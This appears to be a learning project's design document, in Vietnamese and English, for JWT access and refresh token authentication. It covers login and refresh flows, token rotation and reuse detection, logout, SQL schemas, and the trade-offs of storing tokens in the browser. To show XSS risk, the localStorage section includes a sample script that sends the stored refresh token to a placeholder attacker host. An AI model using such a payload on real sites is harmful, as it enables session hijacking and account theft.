





### Register Flow
#### Happy path

```
Client submit register form
        ↓
Server validate payload
        ↓
Check email already exists?
        ↓
No
        ↓
Hash password
        ↓
Create user
        ↓
Return login page / or auto login tùy design
```
Register cases
- Case R1: Payload invalid
- Case R2: Email already exists
- Case R3: Register success nhưng không 'auto login'

### Login Flow
```
Client submit email/password
        ↓
Server validate payload format
        ↓
Find user by email
        ↓
Compare password với password_hash
        ↓
If valid:
    create Access Token
    create Refresh Token
    hash Refresh Token
    create token family/session
    save hashed RT in DB
    return AT + RT
```

### Normal API Request Flow
Client gọi API bình thường bằng AT.
```
Client request protected API
Authorization: Bearer <Access Token>
        ↓
Server verify AT signature
        ↓
Check AT expiry
        ↓
Check user exists / active if needed
        ↓
Return protected resource

```
#### API request cases
##### Case A1: Không có AT
```
401 Unauthorized
Message: Missing access token
```

##### Case A2: AT malformed, AT signature invalid
```
401 Unauthorized
Message: Invalid access token
```

##### Case A3: AT expired
```
401 Unauthorized
Code: ACCESS_TOKEN_EXPIRED
```
##### Case A4: AT valid nhưng token_version không khớp
```
AT chứa token_version = 3
DB/cache user token_version = 4
        ↓
Reject AT

401 Unauthorized
Force login
```

### Refresh Token Flow
#### Main refresh flow
```
Client calls /auth/refresh with RT
        ↓
Server hash incoming RT
        ↓
Find token_hash in DB
        ↓
Check token exists
        ↓
Check revoked_at
        ↓
Check expires_at
        ↓
Create new AT + new RT
        ↓
Hash new RT
        ↓
Save new RT
        ↓
Mark old RT revoked
        ↓
Return new AT + new RT
```

### Refresh Token Cases
#### Case F1: RT malformed

```
401 Unauthorized
Message: Invalid refresh token
Client clear tokens + redirect login
```

#### Case F2: RT không tồn tại trong DB
Có 3 khả năng:
- RT fake
- RT cũ đã bị rotate
- RT đã bị xóa do logout/revoke
```
401 Unauthorized
Force login
```

#### Case F3: RT tồn tại nhưng đã expired
```
401 Unauthorized
Message: Refresh token expired
Revoke current RT if needed
Client clear AT + RT
Redirect login
```

#### Case F4: RT tồn tại nhưng đã revoked

```
RT exists
revoked_at != null

Nghĩa là token này từng hợp lệ, nhưng đã bị dùng rồi hoặc bị logout rồi.

Có thể là:

User/browser gửi lại RT cũ do race condition
Hacker lấy được RT cũ và reuse

Result:

Detect refresh token reuse
Revoke entire token family
Optionally increase token_version
Force login
```

#### Case F5: RT valid, chưa expired, chưa revoked
```
Happy path:

Create new AT
Create new RT
Save hash(new RT)
Revoke old RT
Return new AT + new RT

Result:

200 OK
Return AT + RT mới
```

#### Case F6: Hai request refresh chạy cùng lúc
```
Ví dụ browser gửi 2 request gần như đồng thời:

Request 1: /refresh RT_old
Request 2: /refresh RT_old

Nếu không xử lý tốt:

Request 1 success, rotate RT
Request 2 thấy RT_old revoked
Server tưởng bị attack
User bị logout oan

Có 2 cách handle.

Cách 1: Transaction + lock
SELECT RT FOR UPDATE

Request 2 phải đợi request 1 xong.

Cách 2: Grace period ngắn

Ví dụ trong vòng 5–10 giây, nếu RT cũ bị gửi lại thì không kết luận ngay là compromised.

RT old vừa bị replaced trong 5 giây
        ↓
Return same new token pair hoặc reject nhẹ

Với project learning, cách đơn giản nhất:

Dùng transaction trước
Grace period có thể làm sau
```


### RT compromised nhưng AT vẫn còn hạn

#### Option Basic
```
AT sống rất ngắn: 5–15 phút
Khi detect RT compromised:
    revoke token family
    bắt login lại khi AT hết hạn

Nhược điểm:

Hacker vẫn dùng được AT cũ trong vài phút

Chấp nhận được với nhiều app bình thường. Không phải fintech, banking
```

#### Option Better
Dùng token_version hoặc session_version.
```
Flow:

Detect RT reuse/compromised
        ↓
Revoke token family
        ↓
Increase user.token_version hoặc session.version
        ↓
Mọi AT cũ bị reject

Protected API check:

Decode AT
Get token_version từ AT
Compare với DB/Redis
Nếu khác → reject

Result:

AT dù còn hạn cũng không dùng được nữa

Trade-off:

Mỗi request phải check DB/Redis

Nếu muốn professional hơn, dùng Redis cache.
```

### Logout Flow
Logout current device
```
Client calls /auth/logout with RT
        ↓
Server hash RT
        ↓
Find RT in DB
        ↓
Revoke current token family/session
        ↓
Client clear AT + RT

Result:

Current device logout
Other devices unaffected
```

Logout all devices
```
Client calls /auth/logout-all
        ↓
Server revoke all refresh token families of user
        ↓
Increase token_version
        ↓
Client clear tokens

Result:

All devices logged out
All old AT rejected if token_version enabled
```

### Notes
Với design chỉ có 1 row cho 1 user = userID + refresh_token. Hạn chế là
- Khi refresh token (RT) bị compromised or bị dùng lại
  Bạn biết token không match DB, nhưng bạn không biết rõ.
Không biết được những cái này 

```
RT là token cũ từng hợp lệ?
RT là token fake?
RT là token của device khác?
RT là token do user login lại?
```
--> Đặt ra câu hỏi biết những cái trên để làm gì --> đưa ra security decison
Nếu không phân biệt được, server chỉ biết: “RT không hợp lệ”
có nghĩa là
nếu token fake --> báo mức độ gì đó
nếu token bị dùng lại --> có thể bị hack


- Khi lưu thêm revoked_at server sẽ biết
```
RT_1 từng tồn tại
RT_1 đã bị rotate
RT_1 bây giờ bị reuse
→ compromised
```


### Schema
#### User
```sql
CREATE TABLE users (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),

    email VARCHAR(255) NOT NULL UNIQUE,
    password_hash TEXT NOT NULL,

    -- Dùng để invalidate Access Token cũ nếu cần
    token_version INT NOT NULL DEFAULT 0, ---= dùng để kill Access Token còn hạn

    -- Account status
    is_active BOOLEAN NOT NULL DEFAULT TRUE,
    is_email_verified BOOLEAN NOT NULL DEFAULT FALSE,

    created_at TIMESTAMPTZ NOT NULL DEFAULT NOW(),
    updated_at TIMESTAMPTZ NOT NULL DEFAULT NOW()
);
```
#### Refresh Token Family

- 1 row trong bảng này = 1 session/device
Ví dụ:
```
User Bao
    Laptop Chrome     = family A
    iPhone Safari     = family B
    Android App       = family C

Trong database:

refresh_token_families

id      | user_id | device_name
FAM_A   | Bao     | Chrome Windows
FAM_B   | Bao     | iPhone Safari
FAM_C   | Bao     | Android App

Khi user logout laptop, bạn revoke family A thôi.

UPDATE refresh_token_families
SET revoked_at = NOW(),
    revoked_reason = 'USER_LOGOUT'
WHERE id = :family_id;
``` 
```sql
CREATE TABLE refresh_token_families (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),

    user_id UUID NOT NULL REFERENCES users(id) ON DELETE CASCADE,

    -- Thông tin device/session
    device_name VARCHAR(255),
    user_agent TEXT,
    ip_address INET,

    -- Trạng thái của family/session
    revoked_at TIMESTAMPTZ,
    revoked_reason VARCHAR(100),

    created_at TIMESTAMPTZ NOT NULL DEFAULT NOW(),
    updated_at TIMESTAMPTZ NOT NULL DEFAULT NOW(),

    last_used_at TIMESTAMPTZ
);

```

#### Refresh Token 

```sql
CREATE TABLE refresh_tokens (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),

    user_id UUID NOT NULL REFERENCES users(id) ON DELETE CASCADE,

    family_id UUID NOT NULL REFERENCES refresh_token_families(id) ON DELETE CASCADE,

    -- Không lưu raw RT, chỉ lưu hash
    token_hash TEXT NOT NULL UNIQUE,

    -- Thời hạn RT
    expires_at TIMESTAMPTZ NOT NULL,

    -- Nếu token đã bị rotate/logout/revoke
    revoked_at TIMESTAMPTZ,
    revoked_reason VARCHAR(100),

    -- Token này được thay bằng token nào
    replaced_by_token_id UUID REFERENCES refresh_tokens(id),

    created_at TIMESTAMPTZ NOT NULL DEFAULT NOW(),
    created_by_ip INET,
    created_by_user_agent TEXT,

    last_used_at TIMESTAMPTZ
);
```


### Where to store access token and refresh token in client-side
1. Memory / JavaScript variable
2. localStorage
3. sessionStorage
4. Cookie, đặc biệt là HttpOnly Secure SameSite cookie


```
Access Token: lưu trong memory
Refresh Token: lưu trong HttpOnly Secure SameSite cookie
```

#### Option A — Lưu AT + RT trong localStorage

```javascript
localStorage.setItem("accessToken", accessToken);
localStorage.setItem("refreshToken", refreshToken);

// Client gửi API:
fetch("/api/profile", {
    headers: {
        Authorization: `Bearer ${localStorage.getItem("accessToken")}`
    }
});
```

Ưu điểm
- Dễ implement
- Token vẫn còn sau khi reload tab/browser
- Dễ dùng với SPA như React/Vue/Angular
Nhược điểm lớn
- localStorage đọc được bởi JavaScript.
```javascript
<script>
    fetch("https://attacker.com/steal?rt=" + localStorage.getItem("refreshToken"))
</script>
```

#### Option B — Lưu AT + RT trong sessionStorage
```javascript
sessionStorage.setItem("accessToken", accessToken);
sessionStorage.setItem("refreshToken", refreshToken);
```

Ưu điểm
- Dễ implement
- Đóng tab là mất token
- Giảm rủi ro hơn localStorage một chút
Nhược điểm
- Vẫn đọc được bởi JavaScript.
- Nếu bị XSS: sessionStorage.getItem("refreshToken")

#### Option C — Lưu AT trong memory, RT trong HttpOnly cookie
Cách hoạt động
Login success:
- Server return Access Token trong response body
- Server set Refresh Token vào HttpOnly cookie
- Response ví dụ:Set-Cookie: refresh_token=abcxyz; HttpOnly; Secure; SameSite=Lax; Path=/auth/refresh; Max-Age=2592000, {
  "accessToken": "AT..."
  }

Ưu điểm
- RT không bị JavaScript đọc được.
Nhược điểm
- Cookie tự động được gửi theo request, nên có risk CSRF. Because cookies are automatically handled and attached by the browser, you open the door to CSRF
- Phải dùng:
```
SameSite=Lax hoặc Strict
Secure
HttpOnly
CSRF protection nếu cần
```
Nếu frontend/backend khác domain, config cookie/CORS sẽ phức tạp hơn.

#### Option D — Lưu cả AT và RT trong HttpOnly cookie
Flow:
- Access Token cookie: HttpOnly
- Refresh Token cookie: HttpOnly
Client không cần set Authorization header. Browser tự gửi cookie.

Ưu điểm
- JavaScript không đọc được AT/RT.
- XSS khó steal token trực tiếp.
Nhược điểm
- API auth dựa vào cookie thì phải care CSRF nhiều hơn.
- Ngoài ra, nếu AT cũng trong cookie, backend phải lấy token từ cookie thay vì Authorization: Bearer.


### Fundamentals about SessionStorage, LocalStorage, XSS, CSRF

#### SessionStorage, LocalStorage, Cookie
Both are storage mechanisms that we can use to store key-value pairs directly in the users' browser
Lifecycle (Lifetime)
- localStorage persists indefinitely. It remains even if the user closes the tab, closes the browser, or restarts the computer. It only disappears if cleared via code (localStorage.clear()) or by clearing browser data.
- sessionStorage Data lives only for the duration of the specific tab's session. Closing the tab or the browser wipes the data instantly.

Scope
- localStorage shared across all tabs and windows that share the exact same Origin (same domain, protocol, and port).
- sessionStorage tab-scoped. Data is isolated to that specific tab. Opening a new tab with the same URL starts with a clean slate.


#### XSS, CSRF

##### Cross-Site Scripting (XSS)
An attacker successfully injects and executes malicious JavaScript code directly inside your web application (usually via unsanitized input fields, comment sections, etc.).

#### Cross-Site Request Forgery (CSRF)
The attacker does not steal your information. Instead, they trick the victim's browser into automatically sending an unauthorized request to your web application while the victim is authenticated.

How it relates to Tokens: Browsers automatically attach cookies to requests if the domain matches. Suppose you are logged into your bank (which uses cookies for sessions), and you accidentally click a malicious link sent by a hacker. That malicious site triggers a hidden "transfer money" request to your bank. The browser detects the destination domain, automatically appends your valid session cookie, and the bank processes the request thinking it was genuinely you.

---

## Centralized Architecture & Mermaid Sequence Diagrams

### 1. Register Flow (Case R1, R2, R3)


### 2. Login Flow (Happy Path)


### 3. Normal API Request Flow (Case A1, A2, A3, A4)


### 4. Refresh Token Flow (Case F1 - F6)


### 5. Logout Flow & Logout All Devices Flow


---

## Detailed Flyway Database Migration Schemas

```sql
CREATE EXTENSION IF NOT EXISTS "pgcrypto";

-- 1. Users table update (with token_version and roles support)
CREATE TABLE IF NOT EXISTS users (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    email VARCHAR(255) NOT NULL UNIQUE,
    password_hash VARCHAR(255) NOT NULL,
    name VARCHAR(255) NOT NULL,
    phone VARCHAR(20),
    token_version INT NOT NULL DEFAULT 0,
    roles VARCHAR(255) NOT NULL DEFAULT 'ROLE_USER',
    is_active BOOLEAN NOT NULL DEFAULT TRUE,
    created_at TIMESTAMP NOT NULL DEFAULT NOW(),
    updated_at TIMESTAMP NOT NULL DEFAULT NOW()
);

-- 2. Session/Device tracking families
CREATE TABLE IF NOT EXISTS refresh_token_families (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    user_id UUID NOT NULL REFERENCES users(id) ON DELETE CASCADE,
    device_name VARCHAR(255),
    user_agent TEXT,
    ip_address VARCHAR(45),
    revoked_at TIMESTAMP,
    revoked_reason VARCHAR(100),
    created_at TIMESTAMP NOT NULL DEFAULT NOW(),
    updated_at TIMESTAMP NOT NULL DEFAULT NOW(),
    last_used_at TIMESTAMP
);
CREATE INDEX IF NOT EXISTS idx_rt_families_user ON refresh_token_families(user_id);

-- 3. Rotating Refresh Tokens
CREATE TABLE IF NOT EXISTS refresh_tokens (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    user_id UUID NOT NULL REFERENCES users(id) ON DELETE CASCADE,
    family_id UUID NOT NULL REFERENCES refresh_token_families(id) ON DELETE CASCADE,
    token_hash TEXT NOT NULL UNIQUE,
    expires_at TIMESTAMP NOT NULL,
    revoked_at TIMESTAMP,
    revoked_reason VARCHAR(100),
    replaced_by_token_id UUID REFERENCES refresh_tokens(id) ON DELETE SET NULL,
    created_at TIMESTAMP NOT NULL DEFAULT NOW(),
    created_by_ip VARCHAR(45),
    created_by_user_agent TEXT,
    last_used_at TIMESTAMP
);
CREATE INDEX IF NOT EXISTS idx_rt_hash ON refresh_tokens(token_hash);
CREATE INDEX IF NOT EXISTS idx_rt_family ON refresh_tokens(family_id);

-- 4. User Addresses table
CREATE TABLE IF NOT EXISTS user_addresses (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    user_id UUID NOT NULL REFERENCES users(id) ON DELETE CASCADE,
    label VARCHAR(50) NOT NULL DEFAULT 'Home',
    address_line1 VARCHAR(255) NOT NULL,
    address_line2 VARCHAR(255),
    city VARCHAR(100) NOT NULL,
    state VARCHAR(100),
    postal_code VARCHAR(20) NOT NULL,
    country VARCHAR(100) NOT NULL DEFAULT 'Vietnam',
    is_default BOOLEAN NOT NULL DEFAULT FALSE,
    created_at TIMESTAMP NOT NULL DEFAULT NOW(),
    updated_at TIMESTAMP NOT NULL DEFAULT NOW()
);
CREATE INDEX IF NOT EXISTS idx_addresses_user ON user_addresses(user_id);
```

